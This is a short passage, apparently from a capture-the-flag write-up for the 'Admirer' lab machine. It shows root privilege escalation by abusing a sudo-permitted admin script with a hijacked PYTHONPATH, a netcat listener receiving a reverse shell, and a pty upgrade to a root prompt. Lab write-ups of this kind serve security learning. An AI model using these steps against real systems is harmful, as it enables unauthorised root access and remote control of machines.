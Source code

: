 ```bash
waldo@admirer:/tmp/exploit$ sudo PYTHONPATH=/tmp/exploit /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...

```

Don't forget to run netcat on another terminal:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.187] 42688
python -c "import pty; pty.spawn('/bin/bash')"
root@admirer:/tmp/exploit# cd
cd
root@admirer:~# ls
ls
root.txt
root@admirer:~#
```

GET A ROOT FLAG
